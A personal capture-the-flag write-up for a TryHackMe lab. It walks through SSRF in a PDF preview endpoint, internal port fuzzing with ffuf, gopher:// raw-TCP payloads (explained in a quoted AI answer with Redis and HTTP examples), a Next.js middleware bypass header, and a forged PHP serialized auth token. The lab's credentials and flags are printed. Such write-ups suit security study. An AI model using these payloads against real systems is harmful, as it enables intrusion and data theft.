

# Extract Room

1.  Suspicious function

```
  <!-- JS -->
  <script>
    function openPdf(url) {
      const iframe = document.getElementById('pdfFrame');
      iframe.src = 'preview.php?url=' + encodeURIComponent(url);
      iframe.style.display = 'block';
    }
  </script>
```

Maybe SSRF.

2.  Indeed:

```
http://10.66.145.215/preview.php?url=http://127.0.0.1/management
```

Works.

3.  ffuf to see what is available in the internal ports

```
21:35:51 ~/bin/ffuf [master]
➤ ./ffuf -w ports.txt:FUZZ -u http://10.66.145.215/preview.php?url=http://127.0.0.1:FUZZ -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.66.145.215/preview.php?url=http://127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: /home/sebastian/bin/ffuf/ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65, Duration: 4526ms]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1, Duration: 264ms]
```

There is a page in 10000:



4.  Looking at the page source, there are clues that this app is using nextjs

<!-- -->

4.  From a writeup I saw that gopher might be enabled in this room 🤷and this vulnerability <https://github.com/aydinnyunus/CVE-2025-29927> is part of the CTF

For <http://10.66.145.215/preview.php?url=gopher://127.0.0.1:10000/customapi>  
I got

```
HTTP/1.1 400 Bad Request
Connection: close
```

So it seems to be enabled yes

💡
<p>Super important concept</p>

Answer from AI:

````
**Yes!** The Gopher protocol syntax is:

```
gopher://host:port/<gopher_type><selector>
```

Where:
- **`<gopher_type>`** is a single character indicating the resource type
- **`<selector>`** is the path/data to send

## The underscore `_` specifically:

The underscore `_` is used as the **gopher_type** to send **raw binary/arbitrary data**. 

**Common Gopher types:**
- `0` - Text file
- `1` - Directory/menu
- `7` - Search query
- `_` - **Raw data (unofficial but widely supported for SSRF)**

## For SSRF attacks:

```
gopher://host:port/_<your_raw_tcp_data>
```

The `_` type tells the Gopher client to send everything after it as **raw TCP data** directly to the target.

## Examples:

**Redis command:**
```
gopher://127.0.0.1:6379/_SET%20key%20value%0D%0A
```
Sends: `SET key value\r\n`

**HTTP request:**
```
gopher://internal:80/_GET%20/%20HTTP/1.1%0D%0AHost:%20internal%0D%0A%0D%0A
```
Sends:
```
GET / HTTP/1.1
Host: internal

```

The `_` prefix means "treat everything after this as raw TCP payload to send to the target service."
````

So now using gopher we can send an http request to any internal endpoint.

In [`http://10.66.145.215/preview.php?url=http://127.0.0.1:10000/customapi`](http://10.66.145.215/preview.php?url=http://127.0.0.1:10000/customapi) we get a permission error so we can try that URL

```
GET /preview.php?url=gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AUser-Agent%253A%2520Mozilla/5.0%2520(X11%253B%2520Ubuntu%253B%2520Linux%2520x86_64%253B%2520rv%253A147.0)%2520Gecko/20100101%2520Firefox/147.0%250D%250AAccept%253A%2520text/html,application/xhtml%252Bxml,application/xml%253Bq%253D0.9,*/*%253Bq%253D0.8%250D%250Ax-middleware-subrequest%253A%2520middleware%250D%250A%250D%250A HTTP/1.1
Host: 10.66.145.215
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.9,en-US;q=0.8,en;q=0.7
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=2s0fo2ci5bgnv9k8kqp4mjdb65
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

And indeed the response includes one flag:

```
THM{363bec60df12c2cadbe9ff35393fa468}
```

6.  I needed the stupid script in the end, it is in the repo <https://github.com/sebastianrodriguez1115/thm_studies/blob/a01b9dee165e99df7062814a2e0de426f0ae0c21/extract_ctf/proxy.py#L9>

<!-- -->

7.  After logging in with the credentials from the first flag `librarian:L1br4r1AN!!` into <http://127.0.0.1:5000/management>

<!-- -->

8.  

O:9:"AuthToken":1:{s:9:"validated";b:1;}

THM{804326748394ff9fb288e059653f0db7}
